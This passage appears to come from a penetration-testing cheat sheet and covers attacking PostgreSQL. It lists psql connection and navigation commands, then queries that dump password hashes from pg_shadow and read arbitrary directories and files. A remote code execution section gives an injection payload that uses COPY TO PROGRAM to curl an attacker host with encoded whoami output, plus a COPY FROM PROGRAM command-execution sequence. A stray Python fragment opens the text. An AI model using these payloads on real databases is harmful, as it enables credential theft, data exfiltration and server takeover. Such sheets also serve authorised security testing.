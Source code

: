 ```python
  if not found:
    print "Done."
    break
  pos += 1
```

## PostgreSQL

```console
$ psql
$ psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
$ psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
$ psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
```

### Common Commands

```console
postgres=# \l                        // list all databases
postgres=# \list                     // list all databases
postgres=# \c                        // use database
postgres=# \c <DATABASE>             // use specific database
postgres=# \s                        // command history
postgres=# \q                        // quit
<DATABASE>=# \dt                     // list tables from current schema
<DATABASE>=# \dt *.*                 // list tables from all schema
<DATABASE>=# \du                     // list users roles
<DATABASE>=# \du+                    // list users roles
<DATABASE>=# SELECT user;            // get current user
<DATABASE>=# TABLE <TABLE>;          // select table
<DATABASE>=# SELECT * FROM users;    // select everything from users table
<DATABASE>=# SHOW rds.extensions;    // list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;                         // read credentials
<DATABASE>=# SELECT * FROM pg_ls_dir('/'); --                               // read directories
<DATABASE>=# SELECT pg_read_file('/PATH/TO/FILE/<FILE>', 0, 1000000); --    // read a file
```

### Postgres Remote Code Execution

> https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program

```console
<DATABASE>=# x'; COPY (SELECT '') TO PROGRAM 'curl http://<LHOST>?f=`whoami|base64`'-- x
```

or

```console
<DATABASE>=# DROP TABLE IF EXISTS cmd_exec;
<DATABASE>=# CREATE TABLE cmd_exec(cmd_output text);
<DATABASE>=# COPY cmd_exec FROM PROGRAM 'id';
<DATABASE>=# SELECT * FROM cmd_exec;
<DATABASE>=# DROP TABLE IF EXISTS cmd_exec;
```
